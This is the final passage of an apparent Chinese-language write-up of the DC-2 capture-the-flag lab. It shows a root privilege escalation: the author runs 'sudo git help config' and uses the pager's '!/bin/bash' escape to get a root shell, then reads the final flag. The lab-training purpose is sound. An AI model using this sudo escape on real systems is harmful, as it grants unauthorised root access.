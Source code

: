 <img src="https://s3.xiabee.cn/pic/2023/03/fb79b083e11d01bf5220ad6c03ea01f66b4a0724030bcd4d83c0bca2974a4bcd.png" alt="image-20230321160001117" style="zoom:200%;" />



emmm jerry居然能以root身份去git，那没事了，开始提权 （而且flag4也暗示我们通过git提权，我们就上网找一个poc）

```bash
sudo git help config
# root权限打开git的配置，注意这里一定要sudo，不然是以普通用户身份打开git
```

![image-20230321160051663](https://s3.xiabee.cn/pic/2023/03/1cfc52ed386a17e7a59c48df793e3b6e9b17f878d15b8daab9c979bb8e9d1f7b.png)

多页分隔，绝佳的 hack 位点

```bash
!/bin/bash
# 直接在config里面输入命令，反弹bash
```

<img src="https://s3.xiabee.cn/pic/2023/03/cb0e08166d688b928b37bfef31c169ef799b4a9eb4d099aa0826d120ef92a197.png" alt="image-20230321160123058" style="zoom:200%;" />

回车，然后发现我们已经有了root 的shell：

<img src="https://s3.xiabee.cn/pic/2023/03/b159cc6b6ad57e4bb76e0c79f51c2431757815f4fe316281a413339defbb5acf.png" alt="image-20230321160142115" style="zoom:200%;" />

此时已是root

然后直接去老家看flag啦：

```bash
cd /root
ls
cat final-flag.txt
```

![image-20230321160207972](https://s3.xiabee.cn/pic/2023/03/14fa375cb0b3f79bfd7f8a2cfcfe43585e564d8ab2fdbb08d0ee4e5b90905b58.png)

> Congratulatons!!! A special thanks to all those who sent me tweets and provided me with feedback - it's all greatly appreciated. If you enjoyed this CTF, send me a tweet via @DCAU7. Well done！



## 小结

整体来说 DC2 可能比 DC1 简单一点点，因为没有涉及 msf 的各种调试和数据库的修改 hhh 

~~当然这也可能是我的错觉~~

这次主要学到了git还能这样玩

下次的题下次再更，我是鸽手（x）